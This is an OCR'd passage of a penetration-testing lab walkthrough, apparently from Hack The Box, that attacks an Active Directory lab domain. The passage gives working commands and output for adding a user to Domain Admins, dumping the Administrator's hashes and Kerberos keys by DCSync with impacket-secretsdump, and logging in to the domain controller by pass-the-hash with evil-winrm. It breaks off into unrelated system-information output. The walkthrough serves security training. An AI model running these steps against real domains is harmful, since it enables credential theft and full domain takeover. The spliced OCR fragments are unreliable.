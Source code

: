 Verbose: [Get-PrincipalContext] Using alternate credentials

Verbose: [Add-DomainGroupMember] Adding member 'CT059' to group 'Domain Admins'

*Evil-WinRM* PS C:\> exit

Perform DCSync to get Active Directory password database:

┌─[htb-student@skills-par01]─[~]

└──╼ $impacket-secretsdump INLANEFREIGHT.LOCAL/CT059@172.16.7.3 -just-dc-user Administrator

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

​

Password:

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)

[*] Using the DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:234a798328eb83fda24119597ffba70b:::

[*] Kerberos keys grabbed

Administrator:aes256-cts-hmac-sha1-96:e75e1db2df92c30dd83d8ac7f98320d6f7526c55949a5d5946ab33ff7547584c

Administrator:aes128-cts-hmac-sha1-96:a824eb2fce306cc5b8cc8c87bf8b3ad3

Administrator:des-cbc-md5:855b08e90e677c20

[*] Cleaning up...

Access DC:

┌─[htb-student@skills-par01]─[~]

└──╼ $evil-winrm -i 172.16.7.3 -u administrator -H 234a798328eb83fda24119597ffba70b

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname

DC01

​

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami

inlanefreight\administrator

​

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

​

Directory: C:\Users\Administrator\Desktop

​

Mode LastWriteTime Length Name


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0